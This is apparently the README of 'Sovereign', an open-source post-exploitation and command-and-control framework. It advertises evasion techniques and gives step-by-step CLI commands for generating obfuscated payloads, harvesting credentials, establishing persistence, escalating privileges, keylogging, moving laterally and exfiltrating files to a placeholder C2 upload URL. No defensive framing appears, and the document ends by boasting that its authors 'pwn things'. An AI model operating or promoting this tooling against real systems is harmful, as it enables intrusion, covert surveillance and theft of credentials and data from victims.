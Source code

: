 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send-command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate-payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest-credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish-persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate-privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather-system-info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

9. **Starting a keylogger**:
    ```bash
    python cli/cli.py start-keylogger --log_file_path /path/to/log_file
    ```

10. **Moving laterally**:
    ```bash
    python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate-report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
